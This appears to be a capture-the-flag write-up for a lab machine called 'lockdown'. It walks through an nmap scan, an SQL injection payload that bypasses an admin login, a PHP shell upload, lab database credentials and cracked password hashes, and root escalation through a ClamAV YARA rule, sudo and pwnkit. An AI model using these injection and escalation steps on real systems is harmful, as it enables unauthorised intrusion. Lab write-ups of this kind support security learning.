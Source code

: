 # Introduction

we first add a domain in /etc/hosts so we don't need to remember the IP
```bash
10.10.xx.xx lockdown.thm
```

# Enumeration

we do a nmap with some options :\
\
-T4 is for have more threads to accelerate the scan\
-p- is to scan all the ports\
-sV is to scan the version\
\
we run the scan as sudo so it's doing a SYN scan and not a full TCP connection so it's faster

```bash
sudo nmap -T4 -p- -sV lockdown.thm
```

we got these open ports
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


# HTTP (port 80)
Sql injection in admin form 
```
admin' OR 1=1;#
```


in system info we can change the image displayed to users and upload a php shell


array('id'=>'-1','firstname'=>'Developer','lastname'=>'','username'=>'dev_oretnom','password'=>'5da283a2d990e8d8512cf967df5bc0d0','last_login'=>'','date_updated'=>'','date_added'=>'');
private $host = 'localhost';
    private $username = 'cts';
    private $password = 'YOUMKtIXoRjFgMqDJ3WR799tvq2UdNWE';
    private $database = 'cts_db';



we can found the admin password in database : 3eba6f73c19818c36ba8fea761a3ce6d
careful, if we modify the admin password then the password is blank and we don't have any more informations of the password hash

with john the hash give us : sweetpandemonium

we can use sudo to antivirus
the /var/lib/clamav is writable so we can create a custom yara rule to antivirus
```
rule test
{
  strings:
    $string = "root"
  condition:
    $string
}
```


we crack the hash of maxine : tiarna

by doing a sudo -l, we can execute any commands
so we execute sudo su -> we are now root

we can use pwnkit too for privilege escalation

